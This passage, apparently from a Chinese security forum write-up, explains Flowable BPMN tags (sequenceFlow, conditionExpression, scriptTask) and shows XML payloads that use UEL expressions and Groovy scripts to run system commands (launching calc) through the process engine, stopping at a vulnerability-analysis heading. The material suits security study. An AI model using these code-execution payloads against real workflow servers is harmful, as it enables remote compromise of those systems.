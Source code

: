 ![image.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-cf72ee0f7f02fed714aee30afc7cc4be02b61fc1.png)

### `<sequenceFlow>`

该标签用于定义流程中的顺序连接，它连接两个流程元素，比如活动（Activity）、网关（Gateway）或事件（Event），并指定流程的执行路径。 其中该标签中有个关键点**条件流**（ 可以通过定义条件表达式【如 UEL 表达式】来控制何时执行该流）

#### `<conditionExpression>`

该标签在 BPMN 中用于定义条件表达式，用来控制流程流转路径。它通常与 `` 标签配合使用

```xml
<!-- 执行UEL表达式时，可以不加xsi:type="tFormalExpression" -->
<sequenceFlow id="flow1" sourceRef="startEvent1" targetRef="startEvent1">
  <conditionExpression xsi:type="tFormalExpression"><![CDATA[${"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval('function test(){ return java.lang.Runtime};r=test();r.getRuntime().exec(\'calc\')')}]]></conditionExpression>
</sequenceFlow>
```

对应 在 Flowable Web Modeler 中的位置  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/09/attach-6a59b20d523ec8b3b3782c99a3f237266339b530.png)

### `<scriptTask>`

是 Flowable 用于执行脚本代码的任务节点。它允许在流程运行期间执行任意脚本语言的代码，例如 JavaScript、Groovy、Python 等。

#### `<script>`

```xml
<scriptTask id="scriptTask1" scriptFormat="groovy">
  <script>
    <![CDATA[
      'calc'.execute()
    ]]>
  </script>
</scriptTask>
<!-- 注意，需要有步骤引用了定义的脚本任务scriptTask -->
<sequenceFlow sourceRef="startEvent1" targetRef="scriptTask1"/>
```

```xml
<scriptTask id="scriptTask1" scriptFormat="groovy">
    <script>
        a=java.lang.Runtime.getRuntime().exec("calc")
    </script>
</scriptTask>
<!-- 注意，需要有步骤引用了定义的脚本任务scriptTask -->
<sequenceFlow sourceRef="startEvent1" targetRef="scriptTask1"/>
```

当然还有很多其他利用的标签，这里只列举了一些较为常用的

漏洞分析
----
